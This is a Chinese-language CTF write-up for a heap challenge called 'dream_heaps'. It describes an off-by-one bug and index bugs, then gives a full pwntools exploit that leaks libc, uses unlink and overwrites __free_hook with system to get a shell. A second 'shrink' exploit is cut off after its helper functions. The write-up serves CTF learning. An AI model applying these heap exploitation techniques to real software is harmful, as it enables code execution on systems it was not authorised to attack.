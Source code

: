 题目漏洞挺多
* index类型有问题可以通过某些构造打成任意地址写或者free
* index上界不限导致多次创建后覆盖到了size区域导致溢出但是因为edit里的那行off by one使得比较难利用,之后也没有深究
* edit 中存在 off_by_one

## 思路
* 泄露比较直接可以通过free到unsortedbin中然后leak出来
* off_by_one利用也比较直接因为没有开`PIE`list也存在bss上;像是上文所说两种方法都可以
## `off+unlink`
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("eam?\n",str(size))
	p.sendafter("eam?\n",c)
def free(idx):
	cmd(4)
	p.sendlineafter("te?\n",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("ge?\n",str(idx))
	p.send(c)
def show(idx):
	cmd(2)
	p.sendlineafter("ad?\n",str(idx))
p=process('./dream_heaps')
add(0x88,"A")#0
add(0x88,"B")#1
free(0)
add(0x88,"A")#2
show(2)
base=u64(p.read(6).ljust(8,'\x00'))-(0x7ffff7dd1b41-0x00007ffff7a0d000)
log.warning(hex(base))
libc=ELF("./dream_heaps").libc
libc.address=base
add(0xf8,"A")#3
add(0x88,"/bin/sh")#4
edit(1,p64(0)+p64(0x81)+p64(0x6020a8-0x18)+p64(0x6020a8-0x10)+p64(0)*12+p64(0x80))
free(3)
edit(1,p64(0)*2+p64(libc.symbols['__free_hook']))
edit(0,p64(libc.symbols['system']))
gdb.attach(p)
p.interactive()
```
## `shrink`
```python
from pwn import *
def cmd(c):
	p.sendlineafter("> ",str(c))
def add(size,c):
	cmd(1)
	p.sendlineafter("eam?\n",str(size))
	p.sendafter("eam?\n",c)
def free(idx):
	cmd(4)
	p.sendlineafter("te?\n",str(idx))
def edit(idx,c):
	cmd(3)
	p.sendlineafter("ge?\n",str(idx))
```